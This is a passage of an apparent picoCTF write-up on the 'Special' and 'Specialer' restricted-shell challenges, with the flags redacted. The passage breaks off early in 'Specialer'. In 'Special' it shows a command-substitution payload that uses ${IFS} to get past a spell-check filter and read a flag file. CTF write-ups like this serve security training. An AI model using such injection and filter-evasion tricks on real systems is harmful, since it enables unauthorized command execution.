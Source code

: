 ```bash
     ./useless div 6 3
       This will return 2 as a quotient of 6 and 3

     ./useless sub 6 5
       This will return 1 as a remainder of substraction of 5 from 6

Authors
     This script was designed and developed by Cylab Africa

     picoCTF{XXX}
```

### Special 

Connect to the remote server via `ssh`.

```bash
ssh -p 52906 ctf-player@saturn.picoctf.net
```

We see that the restricted shell does spell check on the commands we enter, thus we cannot simply run the usual commands we know like `ls`, `cat` etc.

We can notice that if we run some special characters like `$` and `()` the output is:

```bash
Special$ $
$ 
sh: 1: $: not found
Special$ $(ls)  
$(ls) 
sh: 1: blargh: not found
```

We suppose that the `flag.txt` is under `./blargh`. 

Then we run this payload to get the flag.

```bash
$(echo${IFS}cat${IFS}./blargh/flag.txt) 
picoCTF{XXX}
```

### Specialer

Connect to the remote server via `ssh`.

```bash
ssh -p 50781 ctf-player@saturn.picoctf.net
```

We run `ls` and see what happens.

```bash
Specialer$ ls
-bash: ls: command not found
```
